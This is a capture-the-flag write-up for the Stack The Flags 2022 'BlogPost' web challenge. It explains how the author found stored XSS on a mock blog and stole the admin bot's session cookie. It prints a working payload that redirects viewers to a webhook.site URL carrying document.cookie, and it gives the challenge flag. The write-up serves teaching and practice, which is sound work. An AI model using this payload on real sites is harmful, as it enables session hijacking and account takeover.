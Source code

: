 # Stack The Flags 2022: BlogPost

![Contest Date: 02.12.2022](https://img.shields.io/badge/Contest%20Date-02.12.2022-lightgrey.svg)
![Solve Moment: During The Contest](https://img.shields.io/badge/Solve%20Moment-During%20The%20Contest-brightgreen.svg)
![Difficulty: Easy](https://img.shields.io/badge/Difficulty-Easy-brightgreen)

## Description

> Jaga created an internal social media platform for the company, can you leak anyone's information?



## Attached Files

- [Source code](https://github.com/seanLimWeiRen/STF22_writeups/tree/main/Web/BlogPost/attached_files)

## Summary

We use XSS to steal the admin's session cookies

## Flag

```
STF22{s1mpl3_p0st_xSs_:)}
```

## Detailed Solution

Upon visiting the website and clicking the login button, we are greeted with a login page which gives us a link to register an account.

![1.png](images/1.png)

After registering an account and logging in with it, we can see that an admin has created a post, providing us with the information that there is an admin account and we might need to gain access to it.

![2.png](images/2.png)

### Finding the vulnerability

I tried to login to the admin account with SQL injection, but it did not work

![3.png](images/3.png)

Read more about SQL injection ![here](https://portswigger.net/support/using-sql-injection-to-bypass-authentication)

Luckily, one of the first things that I thought to test was XSS, so I used `<script>alert('xss')</script>` to test if it was vulnerable.

![4.png](images/4.png)

Indeed, the alert box popped up to show that the blog was vulnerable to XSS

![5.png](images/5.png)

#### How does XSS work? (for beginners)

XSS works by manipulating a website to return possibly malicious javascript code to its users, and it is run on the web browsers of the victim(s).
Using the example from earlier, the `<script>` and `</script>` tags are used to embed a client-side script, while `alert('xss')` simply gives us a popup with the text "xss"

### Exploiting the vulnerability

Remember when I mentioned that we could try to gain access to the admin account? That's exactly what we need to do with XSS.
Because your session data is stored in your cookies, we need to exfiltrate the session cookie.

For this, we can either use ![webhook.site](https://webhook.site) or ![PostBin](https://www.toptal.com/developers/postbin/), both work perfectly fine but I prefer to use webhook.site

With the information I had, I created this payload:
```
<script>javascript:document.location='https://webhook.site/55b56003-41e1-481d-8865-4e5463f746d4?cookie='+document.cookie;</script>
```
Don't worry if you don't know what this means, I'll break it down.

#### How does this work?

When a user views the blog, they will be forcefully redirected to `https://webhook.site/55b56003-41e1-481d-8865-4e5463f746d4`, with their session cookie being sent along as a query string as well. The website then logs it and we can view it.

#### The fun part

![6.png](images/6.png)


Now, when we create the post and go to the webhook.site website, we can see that there are 2 GET requests 

![7.png](images/7.png)

One is from our browser, and the other is from the bot/admin
When we look at the query strings from the bot, we can get our flag.

![8.png](images/8.png)

```
STF22{s1mpl3_p0st_xSs_:)}
```


